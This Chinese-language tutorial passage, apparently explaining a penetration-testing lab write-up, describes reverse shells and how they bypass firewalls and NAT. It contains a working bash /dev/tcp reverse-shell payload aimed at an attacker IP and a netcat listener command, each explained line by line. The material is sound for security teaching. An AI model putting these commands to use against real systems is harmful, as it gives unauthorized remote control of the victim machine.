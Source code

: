 反向 Shell 是一种网络攻击技术，其核心思想是：**让被控制的目标机器主动发起一个网络连接，连接到攻击者控制的机器上**。这与传统的正向 Shell（攻击者连接到目标机器的某个端口）相反。

**一个简单的比喻：**

- **正向 Shell**：就像你（攻击者）打电话给目标公司（目标机器）的客服（开放的服务端口）。
- **反向 Shell**：就像你欺骗目标公司的内部员工（目标机器上的命令执行漏洞），让他主动给你（攻击者）的手机（监听端口）打电话。

### 为什么使用反向 Shell？

在渗透测试中，反向 Shell 通常比正向 Shell 更有效，原因如下：

1. **绕过防火墙/出站规则**：企业防火墙通常配置为严格限制**入站**连接（从外部进入内部），但对**出站**连接（从内部访问外部）的限制相对宽松。目标机器主动向外连接 1337 端口（或其他常见端口如 443、53）的行为，比一个外部连接尝试访问目标内部的高端口更容易被放行。
2. **绕过 NAT**：如果目标机器位于网络地址转换（NAT）或负载均衡器之后，你可能无法直接从外部访问它的内部 IP 地址。让目标机器主动连接出来，就完全绕过了这个问题。
3. **便利性**：攻击者通常使用动态 IP（如 VPN），IP 地址不固定。让目标连接攻击者的 IP，攻击者无需关心目标网络结构的变化。



### 文档中反向 Shell 的详细分解

现在，我们一步步分析文档中实现反向 Shell 的过程。

#### 第 1 步：准备反向 Shell 负载（Payload）

文档中创建了一个名为 `shell.sh` 的 Bash 脚本，其内容为：

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.32/1337 0>&1
```

**逐句解释：**

- `#!/bin/bash`：指定使用 Bash shell 来执行这个脚本。
- `bash -i`：启动一个**交互式**的 Bash shell。`-i` 参数是关键，它使得 shell 是交互式的，可以接收输入并显示输出，就像我们正常使用的终端一样。
- `>& /dev/tcp/10.10.14.32/1337`：这是 Bash 的一个特性（/dev/tcp/ 伪设备）。
  - `>`：重定向输出。
  - `&`：表示重定向的不仅是标准输出（stdout, 文件描述符 1），还包括标准错误（stderr, 文件描述符 2）。
  - `/dev/tcp/10.10.14.32/1337`：Bash 会尝试与 IP 地址 `10.10.14.32`（攻击者机器的 IP）的 `1337` 端口建立一个 TCP 连接。这个文件路径并不真实存在，但它会触发 Bash 的网络连接功能。
- `0>&1`：这一部分将标准输入（stdin, 文件描述符 0）重定向到标准输出（stdout）。因为标准输出已经指向了网络连接，所以标准输入现在也从同一个网络连接读取。

**整体效果：** 这个命令会打开一个连接到攻击者 IP 的 TCP socket，然后将这个交互式 Bash 进程的输入、输出和错误流全部绑定到这个 socket 上。这样，攻击者在 socket 另一端发送的命令就会被目标的 Bash 执行，而执行的结果则会通过网络连接传回给攻击者。

#### 第 2 步：攻击者设置监听器（Listener）

在攻击者机器上运行：

```bash
nc -nvlp 1337
```

- `nc`：Netcat 工具，被称为“网络瑞士军刀”。
- `-n`：禁用域名解析，直接使用 IP 地址。
- `-v`：详细模式，输出更多连接信息。
- `-l`：监听模式，等待传入连接。
- `-p 1337`：指定监听的端口号。
